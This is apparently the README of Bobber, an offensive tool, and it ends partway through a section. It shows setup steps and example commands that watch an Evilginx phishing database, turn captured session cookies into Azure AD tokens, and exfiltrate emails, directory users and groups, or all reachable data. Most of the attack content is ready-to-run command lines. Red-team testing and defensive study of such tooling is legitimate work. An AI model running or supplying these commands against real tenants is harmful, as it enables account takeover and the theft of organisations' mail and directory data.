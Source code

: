 ```
  -ru URL, --redirect-url URL
                        Redirect URL used when authenticating (default: https://login.microsoftonline.com/common/oauth2/nativeclient)
  -t TENANT, --tenant TENANT
                        Tenant ID or domain to auth to
  -d DRIVER_PATH, --driver-path DRIVER_PATH
                        Path to geckodriver file on disk (download from: https://github.com/mozilla/geckodriver/releases/latest)
  -k, --keep-open       Do not close the browser window after timeout. Useful if you want to browse online apps with the obtained credentials
  --headless BOOLEAN    Provide the headless arg to run in headless mode on debian
```
# Setup

1. `git clone https://github.com/Flangvik/Bobber`
2. `pip install -r requirements.txt`
3. Download the latest version of [TeamFiltration](https://github.com/Flangvik/TeamFiltration/releases/latest) for your platform, and place the binary inside the Bobber folder (Optional)
4. Download the latest version of [Geckodriver](https://github.com/mozilla/geckodriver/releases) for your platform, and place the binary inside the Bobber folder
5. `python3 Bobber.py --help` and get going!

# Example Usage

Monitor a remote file for changes via SSH, authenticate using your default ssh key (~/.ssh/id_rsa), keep the browser session open after RoadTools has exchanged captured cookie for JWT tokens, and exfiltrate only AAD Users and Groups data from the Graph API
```powershell
python bobber.py "/root/.evilginx/data.db" --username root --host 1337.66.69.420 --keep-open --aad
```

Monitor a local file for changes, exchange captured cookies for JWT token, and exfiltrate only emails.
```powershell
python bobber.py evilginx_data.db --host 1337.66.69.420  --owa 
```

Monitor a remote file for changes over SSH, authenticate using username and password, exchange captured cookies for JWT tokens, and exfiltrate all data available.
```powershell
python bobber.py "/root/.evilginx/data.db" --username root --password 'MySuperPass123!' --all
```


# Usage with other tools
When Bobber captures a complete Evilginx session, tokens retrieved using RoadTools will be stored in a file using the following naming convention `.sanitized_email_roadtools_auth`. This file can be used in combination with many other tools besides TeamFiltration. Here are a few examples from the context of a PowerShell prompt.
